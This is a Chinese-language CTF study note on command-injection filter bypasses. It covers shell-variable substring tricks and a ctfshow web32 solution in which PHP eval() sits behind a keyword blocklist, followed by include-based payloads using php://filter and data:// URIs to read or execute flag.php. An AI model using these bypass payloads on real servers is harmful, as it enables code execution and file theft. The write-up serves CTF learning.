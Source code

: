 ```
(5) nginx 日志文件
 日志文件在用户安装目录logs目录下
以我的安装路径为例/usr/local/nginx,
那我的日志目录就是在/usr/local/nginx/logs里
```

```
#大佬博客详细内置变量	https://www.cnblogs.com/sparkdev/p/9934595.html
1.$PATH 
用途：可执行文件的搜索路径。
用例：echo $PATH	通常是bin结尾
2. $PWD
用途：工作目录(你当前所在的目录)
用例：echo $PWD	题目环境中肯定是/var/www/html
而字母起到的作用是和0一样的
所以${PATH:~A}${PWD:~A}就是nl
```

```
base_convert() 函数：在任意进制之间转换数字。
dechex() 函数：把十进制转换为十六进制。
hex2bin() 函数：把十六进制值的字符串转换为 ASCII 字符。
```

以上内容主要参考:
https://blog.csdn.net/weixin_45794666/article/details/111403030

### ctfshow部分题

#### web32
```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|echo|\;|\/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}，分号可以用?>代替


```
##### 分析:
主要过滤了 . ; 

<font color="red">include不用括号，分号可以用?>代替</font>

payload:
```
c=include$_GET[1]?>&1=php://filter/read=convert.base64-
encode/resource=flag.php
c=include$_GET[1]?>&1=data://text/plain,<?php system("cat flag.php");?>
c=include$_GET[1]?>&1=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```
